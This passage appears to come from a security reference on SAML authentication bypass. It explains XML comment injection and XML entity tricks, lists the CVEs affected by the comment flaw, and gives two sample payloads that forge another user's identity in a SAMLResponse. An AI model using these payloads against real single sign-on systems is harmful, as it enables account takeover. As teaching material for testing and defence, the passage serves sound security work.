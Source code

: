 In the Github Enterprise vulnerability, this request would verify and create a sessions for `Attacker` instead of `Legitimate User`, even if `FA` is not signed.


### XML Comment Handling

A threat actor who already has authenticated access into a SSO system can authenticate as another user without that individual’s SSO password. This [vulnerability](https://www.bleepstatic.com/images/news/u/986406/attacks/Vulnerabilities/SAML-flaw.png) has multiple CVE in the following libraries and products.

- OneLogin - python-saml - CVE-2017-11427
- OneLogin - ruby-saml - CVE-2017-11428
- Clever - saml2-js - CVE-2017-11429
- OmniAuth-SAML - CVE-2017-11430
- Shibboleth - CVE-2018-0489
- Duo Network Gateway - CVE-2018-7340

Researchers have noticed that if an attacker inserts a comment inside the username field in such a way that it breaks the username, the attacker might gain access to a legitimate user's account.

```xml
<SAMLResponse>
    <Issuer>https://idp.com/</Issuer>
    <Assertion ID="_id1234">
        <Subject>
            <NameID>user@user.com<!--XMLCOMMENT-->.evil.com</NameID>
```
Where `user@user.com` is the first part of the username, and `.evil.com` is the second.

### XML External Entity

An alternative exploitation would use `XML entities` to bypass the signature verification, since the content will not change, except during XML parsing.

In the following example:
- `&s;` will resolve to the string `"s"`
- `&f1;` will resolve to the string `"f1"`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Response [
  <!ENTITY s "s">
  <!ENTITY f1 "f1">
]>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol"
  Destination="https://idptestbed/Shibboleth.sso/SAML2/POST"
  ID="_04cfe67e596b7449d05755049ba9ec28"
  InResponseTo="_dbbb85ce7ff81905a3a7b4484afb3a4b"
  IssueInstant="2017-12-08T15:15:56.062Z" Version="2.0">
[...]
  <saml2:Attribute FriendlyName="uid"
    Name="urn:oid:0.9.2342.19200300.100.1.1"
    NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
    <saml2:AttributeValue>
      &s;taf&f1;
    </saml2:AttributeValue>
  </saml2:Attribute>
[...]
</saml2p:Response>
```
